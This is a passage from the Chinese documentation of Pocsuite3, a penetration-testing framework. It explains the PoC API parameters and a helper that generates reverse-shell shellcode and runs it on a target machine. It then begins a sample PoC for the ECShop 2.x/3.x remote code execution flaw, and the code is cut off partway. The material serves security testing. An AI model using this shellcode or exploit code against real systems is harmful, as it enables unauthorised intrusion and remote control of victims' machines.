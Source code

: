 **参数调用**<div id="api_params"></div>

* self.headers 用来获取 http 请求头, 可以通过 --cookie, --referer, --user-agent, --headers 来修改和增加需要的部分
* self.params 用来获取 --extra-params 赋值的变量, Pocsuite 会自动转化成字典格式, 未赋值时为空字典
* self.url 用来获取 -u / --url 赋值的 URL, 如果之前赋值是 baidu.com 这样没有协议的格式时, Pocsuite 会自动转换成 http:// baidu.com

##### ShellCode生成支持

在一些特殊的Linux和Windows环境下，想得到反弹shell条件比较困难。为此我们制作了用于在Windows/Linux x86 x64环境下的用于反弹的shellcode，并制作了接口支持，你在只需要拥有命令执行权限下便可以自动将shellcode写入到目标机器以及执行反弹shell命令。Demo Poc：https://github.com/knownsec/pocsuite3/blob/master/pocsuite3/pocs/thinkphp_rce2.py

```python
from pocsuite3.api import generate_shellcode_list
_list = generate_shellcode_list(listener_ip=get_listener_ip(),listener_port=get_listener_port(),os_target=OS.LINUX,os_target_arch=OS_ARCH.X86)
```

将生成一长串执行指令，执行这些指令便可以反弹出一个shell。

##### HTTP服务内置

对于一些需要第三方HTTP服务才能验证的漏洞，Pocsuite3也提供对应的API，支持在本地开启一个HTTP服务方便进行验证。

可查看测试用例:https://github.com/knownsec/pocsuite3/blob/master/tests/test_httpserver.py

#### PoC 代码示例<div id="PoCexample"></div>

##### PoC Python 代码示例<div id="pyexample"></div>

[Ecshop 2.x/3.x Remote Code Execution](http://www.seebug.org/vuldb/ssvid-97343) PoC:

```
import base64
from urllib.parse import urljoin

from pocsuite3.api import Output, POCBase, register_poc, requests, logger
from pocsuite3.api import get_listener_ip, get_listener_port
from pocsuite3.api import REVERSE_PAYLOAD
from pocsuite3.lib.utils import random_str
from requests.exceptions import ReadTimeout


class DemoPOC(POCBase):
    vulID = '97343'  # ssvid
    version = '3.0'
    author = ['seebug']
    vulDate = '2018-06-14'
    createDate = '2018-06-14'
    updateDate = '2018-06-14'
    references = ['https://www.seebug.org/vuldb/ssvid-97343']
    name = 'Ecshop 2.x/3.x Remote Code Execution'
    appPowerLink = ''
    appName = 'ECSHOP'
    appVersion = '2.x,3.x'
    vulType = 'Romote Code Execution'
    desc = '''
    '''
    samples = []
    install_requires = ['']

    def _verify(self):
        result = {}
        path = "user.php?act=login"
        url = urljoin(self.url, path)
        echashs = [
            '554fcae493e564ee0dc75bdf2ebf94ca',  # ECShop 2.x hash
            '45ea207d7a2b68c49582d2d22adf953a'  # ECShop 3.x hash
```